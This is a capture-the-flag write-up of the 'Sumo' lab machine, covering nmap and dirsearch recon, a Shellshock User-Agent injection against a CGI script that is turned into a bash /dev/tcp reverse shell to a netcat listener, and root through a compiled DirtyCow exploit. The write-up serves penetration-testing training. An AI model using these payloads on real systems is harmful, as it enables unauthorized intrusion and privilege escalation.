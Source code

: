 ```yaml
---
title: Proving Grounds: Writeup for Lab SUMO
tags:
  - offsec
  - proving-grounds
  - oscp
categories:
  - Bug Bounty
  - Projects
summary: This is the writeup for sumo lab from proving grounds 
created: 2023-07-20
lastmod: 2023-07-20
---
```


## Introduction
Sumo is a machine available on vulnhub and offsec proving grounds labeled **easy** and covers 0-day exploits discovered in the past. The machine hosts a website and has 2 flags to be submitted. 

## Recon
After getting the IP of the machine, ran a basic nmap scan on the target machine: 
```bash
nmap -Pn -sV -T4 192.168.1.48
```

The disovered open ports are `80` and `22`. Lets visit the website first. 

Next thing, i brute forced into the website using `dirsearch`: 
```
python3 dirsearch --url https://192.168.1.120
```

I found the `CGI-BIN` endpoint. And from the nmap output, we know the version of apache is `2.2.22` which is quite an old version.

## Exploitation
### Initial Access

Now, duringthe brute force phase, i also discovered the `test` script under the `CGI-BIN` folder. Since, we know the system is old, lets try the famous `ShellShock` exploit: 
```
curl -H ‘User-Agent: () { :; }; whoami; pwd; pwd’ http://192.168.124.87/cgi-bin/test.sh
```

And we got the output back. Lets escalate it to a shell: 
```
## Listening
nc -lvnp 555

## Target execution
curl -H ‘User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<IP>/555 0>&1’ http://192.168.XX.XX/cgi-bin/test.sh
```

And we got the shell. Our first flag is in `local.txt` file:
```
cat ./local.txt
```

### Privilege Escalation
Next, we need to escalate it to the root user. So, we can get the other flag as well. Lets get the system version first: 
```
hostnamectl  ## Game me no output
uname -a
```

Hmmm, the linux version seems to be quite old. Now, just like before, the local exploit that came quickly to mind after the shellshoch was `dirtycow`. Lets get a public version of it. Compiling it: 
```
gcc dirtycow.c -o dcow -pthread -static
```

I used the `-static` flag to statically compile the glibc libraries with the binary. Otherwise, you would run into the libraries issue since the system was quite old and i was on `Kali 2023.1`. Lets execute the binary: 
```
chmod +x ./dcow
./dcow
```

